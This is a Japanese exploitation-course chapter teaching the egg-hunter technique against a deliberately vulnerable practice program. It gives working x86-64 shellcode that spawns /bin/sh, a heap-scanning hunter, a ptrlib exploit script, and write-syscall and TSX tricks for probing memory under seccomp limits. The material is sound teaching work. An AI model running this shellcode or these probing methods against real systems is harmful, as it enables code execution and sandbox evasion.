

この章（LU-egghunt）の[演習ファイル](TODO)をダウンロードしてください。

## Egg Hunter
[制約付きシェルコード](restrected.html)の章では、シェルコードの長さに制約がある状況について考えました。
機械語を短くするテクニックや`read`システムコールを使ったシェルコードの読みなおしなどのテクニックを紹介しましたが、現実的にはこのような小手先の手法はほとんど通用しません。
実際にはさらにポストエクスプロイトをダウンロードして実行するような長いシェルコードを送る必要があります。また、ネットワーク経由やファイルを通してエクスプロイトを送ることが多いため、直接`read`することはほとんどの場合できません。

このようなとき、 **Egg Hunter** と呼ばれる手法が便利です。
注入できるシェルコードが短くても、ほとんどの場合、それ以外の領域（ヒープやスタック）に任意のデータを設置できます。したがって、ヒープにシェルコードを用意しておき、本体のシェルコードから呼び出せる場所にコピーすれば、ヒープに用意した長いシェルコードを実行できます。ヒープからシェルコードを見つける仮定をイースターの卵探しゲームになぞらえて、Egg Hunterと呼ばれるようになりました。

今回は攻撃対象を模したプログラムとして、次のコードを使います。詳細は演習ファイルの`shellcode.c`を読んでください。
```c
int main() {
  char *data;
  void (*shellcode)() = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC,
                             MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
  assert (shellcode != MAP_FAILED);

  randomize_heap();

  data = (char*)malloc(SIZE_DATA);
  assert (data != NULL);
  write(STDOUT_FILENO, "data: ", 6);
  read(STDIN_FILENO, data, SIZE_DATA);

  randomize_heap();

  write(STDOUT_FILENO, "shellcode: ", 12);
  read(STDIN_FILENO, shellcode, 0x100);
  shellcode();

  return 0;
}
```
ヒープのランダムな箇所にデータを置き、シェルコードを実行できます。

## シェルコードの探索
Egg Hunterの本体は、シェルコードを見つける部分です。一般的には実行したいシェルコードの先頭にマジックナンバーを付けておき、それを探すコードを書きます。
今回は次のような簡単なシェルコードを呼び出すことを考えます。
```
_start:
  dq 0xdeadbeefcafebabe         ; marker

  ; execve(arg0, args, NULL)
  xor edx, edx
  push rdx
  lea rdi, [rel arg2]
  push rdi
  lea rdi, [rel arg1]
  push rdi
  lea rdi, [rel arg0]
  push rdi
  mov rsi, rsp
  mov eax, 59
  syscall

arg2:
  db "id", 0
arg1:
  db "-c", 0
arg0:
  db "/bin/sh", 0
```
マジックナンバーとして0xdeadbeefcafebabeを使用しました。

シェルコードを探索するには、まず起点となるアドレスが必要です。シェルコードが呼び出されたとき、レジスタの状態は次のようになっています。

<center>
  
</center>

R9レジスタにヒープのアドレスが入っていることがわかります。ここを起点に本体のシェルコードを探索できそうです。大抵の場合は今回のように、レジスタやスタックに探索したいアドレスがあるので、そこを起点にマジックナンバーを探せば良いです。

Egg Hunterのシェルコードは次のようになります。
```nasm
_start:
  mov r15, r9                   ; heap address
  mov r14, 0xdeadbeefcafebabe   ; magic
  and r15, 0xfffffffffffffff0
search:
  mov rax, [r15]
  cmp rax, r14
  jz found
  sub r15, 0x10
  jmp search
found:
  add r15, 8
  mov edx, 0x800
  mov rsi, r15
  lea rdi, [rel main]
  call memcpy
  jmp main

;; memcpy sourceからdestinationにデータをコピーする。
;;   rdi: destinationのアドレス
;;   rsi: sourceのアドレス
;;   rdx: コピーするサイズ
memcpy:
  mov rcx, rdx
  repnz movsb
  ret

main:
```

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    見つけたシェルコードを<code>mprotect</code>で実行可能にしてもよいですが、ブラウザのようにseccompでシステムコールを制限していることがあるから、コピーの方が一般的です。
  </p>
</div>

実行すると、`id`コマンドを起動する本体のシェルコードが呼び出されます。
```python
from ptrlib import *

shellcode = nasm(open("shellcode.S").read(), bits=64)
egg_hunter = nasm(open("hunter.S").read(), bits=64)

sock = Process("./runner")
sock.sendafter("data: ", shellcode)
sock.sendafter("shellcode: ", egg_hunter)
sock.sh()
```

## アドレスの探索

時としてヒープ（本体のシェルコードが置かれている領域）のアドレスが分からないときがあります。アドレスに関する情報がない場合は、どうすれば良いでしょうか。

最初に考えられる方法として、`/proc/self/maps`からメモリマップを読む方法や`mmap`を使って特定の領域がマップされているかを調べる方法があります。しかし、ひよこ先生が言っていたように、ここではシステムコールが制限されている状況を考えます。

Linuxで特定のアドレスがマップされているかを調べるシステムコールは提供されていませんが、方法はあります。

### 安全なシステムコールの利用

システムコールはカーネル空間で処理されるため、どんな呼び方をしてもユーザー空間側のプログラムはクラッシュしないように設計されています。つまり、アドレスを受け取るようなシステムコールに不正なアドレスを渡すと、エラー番号が返ります。

これを利用すれば、`write`のようにたいていのサンドボックス下でも利用できるシステムコールで、特定のアドレスがマップされているか（正確にはリード可能か）を調べられます。

`mmap`と違って探索は線形にしかできませんが、ヒープのサイズは大きいことが期待されるため、ある程度大きいサイズをスキップしながら読み込み可能な領域を見つけられます。

```
;; is_mapped 与えられたアドレスが読み込み可能かを調べる。
;;   arg1 (rdi): 調べるアドレス
;;   returns: 読み込み可能なら1を、そうでなければ0
is_mapped:
  ; write(1, address, 1)
  mov edx, 1
  mov rsi, rdi
  mov edi, edx
  mov eax, edx
  syscall
  test rax, rax
  setns al
  movzx eax, al
  ret
```

### TSXの利用

IntelのHaswellプロセッサあたりから、 **TSX (Transactional Synchronization Extensions)** と呼ばれる機能が登場しました。TSXは、命令列をアトミックに実行するための機能で、並列プログラミングで役立ちます。

`xbegin`命令でトランザクションの開始を示し、`xend`命令で終了を示します。`xbegin`命令は相対アドレスをオペランドとして取り、`xabort`によりトランザクションを中止した際、そのアドレスにジャンプします。
トランザクションの実行中に不正なアドレスの読み書きや、実行できない領域へのジャンプが発生した場合、SIGSEGVが発生する代わりにトランザクションの中止が起きます。つまり、不正なアドレスを読もうとしても、プログラムはクラッシュせず、`xbegin`に渡したアドレスにジャンプします。

```
;; is_mapped 与えられたアドレスが読み込み可能かを調べる。
;;   arg1 (rdi): 調べるアドレス
;;   returns: 読み込み可能なら1を、そうでなければ0を返す。
is_mapped:
  xbegin .abort
  mov rax, [rdi]
  xend
  mov eax, 1
  ret
.abort:
  xor eax, eax
  ret
```

CPUやカーネル依存ですが、システムコールによるテストよりも高速なため、アドレス情報が必要な際は試してみる価値があるでしょう。

----

<div class="column" title="例題">
  <code>write</code>システムコールを使ったテストでヒープのベースアドレスを取得するよう、<code>runner</code>を対象としたEgg Hunterを書き直してください。
</div>

[☞ 例題の解答](egg-hunter-answer.html)
